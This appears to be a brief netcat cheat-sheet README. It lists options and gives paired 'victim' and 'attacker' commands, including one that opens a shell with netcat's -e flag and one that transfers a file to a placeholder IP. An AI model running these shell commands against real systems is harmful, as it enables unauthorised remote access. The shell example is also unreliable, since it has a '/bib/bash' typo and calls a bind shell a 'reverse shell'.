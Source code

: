 # NETCAT

Netcat functions as a back-end tool that allows for port scanning and port listening. In addition, you can actually transfer files directly through Netcat or use it as a backdoor into other networked systems. Partnered with a tool like Varonis Edge, you would receive an alert of any unusual activity and could then use Netcat to investigate. Lastly, Netcat is a flexible tool because of how it can be scripted for larger tasks.

** Syntax **

> # nc [options] hostname port [port]

# Options

* No DNS lookup :

> -n

* Verbose output :

> -v

* To specify the port to connect :

> -p

* For listening :

> nc -l [port_no]

* For help :

> nc -h

* For connecting to specified IP and port :

> nc [IP] [port]

* For executing commands :

> -e [command]

* For reverse shell :

      In victim's machine
      
      > nc -l -p [port] -e /bib/bash

      In attacker's machine
      
      > nc [IP] [port]

* Remote file transfering :

      In victim's machine
      
     > nc -l -p [port] > filename

      In attacker's machine
      
     > cat '/path_to_file/filename' | nc [IP] [port]


